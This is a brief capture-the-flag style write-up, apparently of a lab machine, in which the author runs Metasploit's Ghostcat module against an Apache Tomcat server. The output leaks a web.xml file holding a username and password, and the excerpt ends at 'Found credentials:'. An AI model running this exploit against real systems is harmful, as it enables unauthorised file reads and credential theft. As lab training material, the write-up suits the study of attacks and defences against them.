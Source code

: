 Apache tomcat server on port 8080 but no website is setup?

we search an exploit and with metasploit we use this

```
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.212.86
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1261-1583902632000"
Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
Content-Type: application/xml
Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one or more
contributor license agreements.  See the NOTICE file distributed with
this work for additional information regarding copyright ownership.
The ASF licenses this file to You under the Apache License, Version 2.0
(the "License"); you may not use this file except in compliance with
the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
-->

<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
version="4.0"
metadata-complete="true">

<display-name>Welcome to Tomcat</display-name>
<description>
Welcome to GhostCat
skyfuck:8730281lkjlkjdqlksalks
</description>

</web-app>

[+] 10.10.212.86:8080 - /home/its_a_me/.msf4/loot/20211029191143_default_10.10.212.86_WEBINFweb.xml_261102.txt
[*] Auxiliary module execution completed
```

Found credentials:
